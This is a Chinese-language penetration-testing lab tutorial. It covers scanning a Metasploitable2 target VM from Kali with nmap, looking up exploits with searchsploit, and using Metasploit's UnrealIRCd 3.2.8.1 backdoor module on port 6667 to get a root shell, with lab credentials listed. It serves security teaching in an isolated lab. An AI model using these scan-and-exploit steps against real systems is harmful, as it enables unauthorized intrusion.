









# 扫描目标主机网络服务安全漏洞

## 一、实验简介

### 1.1 实验介绍

Kali Linux 是业内最知名的安全渗透测试专用操作系统。它的前身就是业界知名的 BackTrack 操作系统。BackTrack 在2013年停止更新，转为 Kali Linux。Kali Linux集成了海量渗透测试、网络扫描、攻击等专用工具。通过系统更新，用户可以快速获取最新的各类工具。

网络扫描是一门操作性极强的学科。通过实施网络扫描，用户能够发现目标主机上各种服务分配的端口、开放的服务、服务软件及版本等信息。本实验将介绍，扫描目标主机网络服务安全漏洞的知识点。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

在接下来的实验中，主要以理论知识为主，扫描步骤配有实验楼截图。通过学习本实验课程，掌握基本的实验扫描流程。网络扫描的基本流程如下所示： 

- 发现目标主机
- 端口扫描
- 指纹信息扫描
- 漏洞扫描
- 实施渗透攻击

图为网络扫描流程图：


### 1.3 实验环境

本实验在实验楼的环境下进行。在实验楼的环境中，采用的实验环境包含两台虚拟机，分别是攻击机和靶机，攻击机和靶机的账户和密码参数分别如下：

| 主机   | 主机名            | 用户名     | 密码       |
| ------ | ----------------- | ---------- | ---------- |
| 攻击机 | `Kali Linux 2.0`  | `root`     | `toor`     |
| 靶机   | `Metasploitable2` | `msfadmin` | `msfadmin` |


## 二、环境启动

### 2.1 实验环境启动

在实验桌面中，双机 Xfce 终端，打开终端，后续所有的操作命令都在这个终端中输入。


首先使用 `virsh list` 命令查看当前环境中虚拟机的列表和状态，注意需要使用 sudo，另外需要加上参数 `--all` 才会显示所有关机状态的虚拟机：



然后我们使用 `virsh start` 命令启动虚拟机，再次查看状态虚拟机已经进入 running 状态：


注意由于虚拟机启动需要时间，大概要等四分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：


然后打开一个新的终端标签页，SSH 连接到 Metasploitable2 中，用户名 msfadmin，密码 msfadmin：



在 Kali 虚拟机中 `ping target` 测试两台虚拟机都可以通过内部的虚拟网络进行连接，使用 Ctrl-C 退出 ping：


现在两台实验环境都已经启动了，我们可以开始渗透测试了。

## 三、 扫描漏目标主机网络漏洞

### 3.1 扫描目标主机网络漏洞

漏洞扫描是保证系统和网络安全必不可少的手段。网络漏洞扫描方式通过远程检测目标主机TCP/IP不同端口的服务，记录目标给予的回答。

通过这种方法，可以搜集到很多目标主机的各种信息，例如是否能用匿名登陆，是否有可写的FTP目录，是否能用Telnet等。

在获得目标主机 TCP/IP 端口和其对应的网络访问服务的相关信息后，与网络漏洞扫描系统提供的漏洞库进行匹配，如果满足匹配条件，则视为漏洞存在。

"工欲善其事，必先利其器"，通常扫描目标主机网络漏洞工具有：

| 工具      | 工具介绍                                                     |
| --------- | ------------------------------------------------------------ |
| `Nmap`    | Nmap（网络映射器）是一款用于网络发现和安全审计的网络安全工具，它是自由软件。软件名字 Nmap 是 Network Mapper 的简称 |
| `NeXpose` | Nexpose 是一项高评价且易于使用的产品，能帮助保障网络、数据库、应用及更多平台的安全 |
| `Nessus`  | Nessus 是目前全世界最多人使用的系统漏洞扫描与分析软件。总共有超过75,000个机构使用 Nessus  作为扫描该机构电脑系统的软件 |


### 3.2  NeXpose 扫描目标主机系统漏洞 :

NeXpose 扫描目标主机系统漏洞介绍：

> Nexpose 是领先的漏洞评估工具之一。Nexpose 社区版是一个免费的程序，其他版本是收费的。它是一项高评价且易于使用的产品，能帮助保障网络、数据库、应用及更多平台的安全。

NeXpose 扫描目标主机系统，将会在下节实验给大家详细介绍。

### 3.3  Nessus 扫描目标主机漏洞：

Nessus 扫描目标主机漏洞及背景：

> Nessus 的创办人 Renaud Deraison 展开了一项名为 "Nessus" 的计划，其计划目的是希望能为因特网社群提供一个免费、威力强大、更新频繁并简易使用的远端系统安全扫描程序。经过了数年的发展, 包括 CERT 与 SANS 等著名的网络安全相关机构皆认同此工具软件的功能与可。


该系统被设计为 Client/Sever 模式，服务器端负责进行安全检查，客户端用来配置管理服务器端。在服务端还采用了插件的体系，允许用户加入执行特定功能的插件，以进行更快速和更复杂的安全检查。在 Nessus 中还采用了一个共享的信息接口，称为知识库，其中保存了前面进行检查的结果。检查的结果可以 HTML、纯文本、LaTeX 等几种格式保存。

Nessus 的优点在于：

1. 其采用了基于多种安全漏洞的扫描，避免了扫描不完整的情况。
2. 它是免费的，比起商业的安全扫描工具如ISS具有价格优势。

### 3.4  Nmap 扫描目标主机网络漏洞 :

> 主要功能：探测主机是否在线、扫描主机开放端口和嗅探网络服务，用于网络探测和安全扫描。

NMap支持很多扫描技术，例如：UDP、TCPconnect()、TCPSYN(半开扫描)、ftp 代理(bounce攻击)、反向标志、ICMP、FIN、ACK 扫描、SYN 扫描和 null 扫描。

Nmap 扫描目标主机网络漏洞：

| 参数            | 含义                                                         |
| --------------- | ------------------------------------------------------------ |
| `-iL filename`  | 从 filename 文件中读取扫描的目标                             |
| `-iR`           | 让 nmap 自己随机挑选主机进行扫描                             |
| `-p`            | 端口，这个选项让你选择要进行扫描的端口号的范围。可使用逗号分隔多个端口，减号连接一个端口范围 |
| `-exclude `     | 排除指定主机                                                 |
| `-exclude file` | 排除指定文件中的主机                                         |

我们可以在 Kali 使用 Nmap 工具扫描 Metasploitable2 中开放的服务，注意 Nmap 的参数使用：

```
nmap -p 1-65535 -T4 -A -v target >/tmp/report.txt
```
说明：扫描这个过程需要时间，请耐心等待


nmap 命令很强大，有很多的参数，实验楼的训练营在后续实验中也会进行详细的介绍。这里我们使用到的参数意义如下：

| 参数               | 参数含义                                                     |
| ------------------ | ------------------------------------------------------------ |
| `-p`               | 指定扫描的端口范围                                           |
| `-T4`              | 设定 nmap 扫描的时间策略，数字为0-6，越大越快。扫描的越慢则越不容易被发现，也不会给目标带来太大的网络流量 |
| `-A`               | 同时启用操作系统指纹识别和版本检测                           |
| `-v`               | 将会显示扫描过程中的详细信息                                 |
| `>/tmp/report.txt` | 将输出的信息重定向到文件中，方便后续对扫描信息进行分析       |

好了，到了这一步，我们已经使用了强大的扫描神器，扫描了靶机 Metasploitable2 中开放的服务。下面我们将进行漏洞分析。

## 四、漏洞分析

### 4.1 对扫描的结果进行分析

我们得到了一份详细的系统扫描报告，从报告中我们可以发现系统提供的各种服务及版本，通过这些版本我们能够找到对应的漏洞信息，从而利用这些软件的漏洞对系统进行攻击。

在实验楼终端中，输入如下命令：

```bash
cat /tmp/report.txt
```
则可以看到刚才 Nmap 扫描出目标靶机开放的端口：





### 4.2 Searchsploit 漏洞信息查询

在 kali 上其实也为我们默认集成了，一款专用于漏洞信息查询的工具 searchsploit 。使用命令如下：

```
searchsploit unreal ircd
```



在实验楼的终端中，我们可以使用 `cat` 来查看其内容：

```bash
cat /usr/share/exploitdb/platforms/linux/remote/16922.rb
```




### 4.3 利用漏洞进行攻击

扫描目标主机网络服务安全漏洞，主要是为了后续的渗透攻击。在这里，我们使用刚才的 Nmap 扫描得到的漏洞。进行漏洞攻击。

可通过 cat 查找刚才的 `report.txt` 文件，或者使用：

```
grep -i 6667 /tmp/report.txt
```



查到 `6667` 端口是开放的，下面我们使用端口 `6667` 进行演示：

进入 `msfconsole` ，接着利用 `use` 命令使用模块：
```
use exploit/unix/irc/unreal_ircd_3281_backdoor
```


接着在终端中，输入命令，设置攻击的目标靶机：

```
set RHOST 192.168.122.102

```
然后进行攻击：

```
exploit
```



### 4.4 验证攻击成功与否

下面我们在终端中，验证对端口 `6667` 渗透攻击成功与否：

通过输入`whoami` 查看当前用户命令，和 `hostname` 主机名字命令来验证是否渗透成功：



由图可知，登录用户为 `root`，目标主机已经渗透成功。


## 五、总结

通过本实验的学习，掌握了网络扫描的基本流程。让我们再回顾一遍，网络扫描的基本流程为：发现目标主机、端口扫描、 指纹信息扫描、漏洞扫描、实施渗透攻击。

其中使用 Nmap 进行端口扫描。在实验中，演示了利用端口 `6667` 的漏洞，进行攻击的流程。并对端口的成功与否进行验证。希望在做实验的同学，重视信息收集这一块工作。

只有更好地，更全面地收集目标靶机的漏洞，我们才能够更好的地进行渗透工作。

## 六、推荐阅读

下面这个工具 `Nikto2` 是非常不错的Web漏洞扫描软件。希望有能力的同学，能够阅读一下，

> https://cirt.net/Nikto2

Nikto 是一款开放源代码的、功能强大的 WEB 扫描评估软件，能对web服务器多种安全项目进行测试的扫描软件，能在 230 多种服务器上扫描出 2600 多种有潜在危险的文件、CGI 及其他问题，它可以扫描指定主机的 WEB 类型、主机名、特定目录、COOKIE、特定 CGI 漏洞、返回主机允许的 http 模式等等。它也使用 LibWhiske 库，但通常比 Whisker 更新的更为频繁。

## 七、课后作业

本节课程实验理论较多，希望大家能够好好地了解扫描目标主机网络服务安全漏洞的工具。掌握渗透攻击的基本流程。现在请你完成以下作业：

- 了解扫描目标主机网络服务安全漏洞的工具
- 掌握网络扫描基本流程
- 掌握渗透工具流程

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。